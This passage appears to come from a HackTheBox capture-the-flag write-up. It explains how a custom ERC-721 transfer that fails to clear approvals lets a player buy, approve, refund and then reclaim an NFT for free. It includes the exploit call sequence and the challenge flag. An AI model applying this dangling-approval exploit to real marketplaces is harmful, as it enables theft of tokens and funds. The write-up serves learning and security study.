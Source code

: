 Again, the operator checks are almost the same, but this time one more action is being made on the OZ implemenation:
```solidity
        // Clear approval. No need to re-authorize or emit the Approval event
        _approve(address(0), tokenId, address(0), false);
```

The `FrontierNFT` transfer function, does not clear approvals indeed.  
How can we exploit this? Think of the following scenario:

1) Player buys an NFT for `10 ethers` through the FrontierMarketplace instance, he becomes owner of tokenId `1`. Player balance is now `10 ethers`.
2) Player approve himself for tokenId `1`.
3) Player also set approval for all tokens in his possession for `FrontierMarketplace` as operator. This is allowed by the missing check in the `approve` function and allows `FrontierMarketplace` to move tokens while keeping valid the previous self-approval.
4) Player asks for refund, `FrontierMarketplace` regain ownership of tokenId `1` and players receive back `10 ethers`. Player balance is now `20 ethers` again.
5) Player calls `transferFrom` for himself of tokenId `1`, despite having no ownership, thanks to the dangling approval set at step 2.
6) Player has the initial balance of `20 ethers` but got 1 free FrontierNFT token, and can repeat from step 1 indefinitely.

# Exploitation

To reproduce the scenario, a player must perform the following sequence of action:
```py
[...]
    csend(target_addr, "buyNFT()", "--value", "10ether")
    csend(frontierNFT, "approve(address,uint256)", player_addr, "1")
    csend(frontierNFT, "setApprovalForAll(address,bool)", target_addr, "true")
    csend(target_addr, "refundNFT(uint256)", "1")
    csend(frontierNFT, "transferFrom(address,address,uint256)", target_addr, player_addr, "1")
```

see the full exploitation script [here](./htb/solver.py).

---
> HTB{g1mme_1t_b4ck}
